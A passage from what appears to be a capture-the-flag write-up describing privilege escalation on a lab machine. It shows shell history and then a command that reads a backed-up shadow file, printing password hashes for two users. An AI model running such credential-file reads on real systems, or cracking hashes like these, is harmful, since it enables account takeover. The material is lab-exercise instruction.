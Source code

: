 
## PE

Here's how I was able to escalate privileges for full control of the system.

There are some history commands available.

```console
sunny@sunday:/home/sammy$ history
    1  su -
    2  su -
    3  cat /etc/resolv.conf
    4  su -
    5  ps auxwww|grep overwrite
    6  su -
    7  sudo -l
    8  sudo /root/troll
    9  ls /backup
   10  ls -l /backup
   11  cat /backup/shadow.backup
   12  sudo /root/troll
   13  sudo /root/troll
   14  su -
   15  sudo -l
   16  sudo /root/troll
   17  ps auxwww
   18  ps auxwww
   19  ps auxwww
   20  top
   21  top
   22  top
   23  ps auxwww|grep overwrite
   24  su -
   25  su -
   26  cat /etc/resolv.conf
   27  ps auxwww|grep over
   28  sudo -l
   29  sudo /root/troll
   30  sudo /root/troll
   31  sudo /root/troll
   32  sudo /root/troll
```

```console
sunny@sunday:/home/sammy$ cat /backup/shadow.backup
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

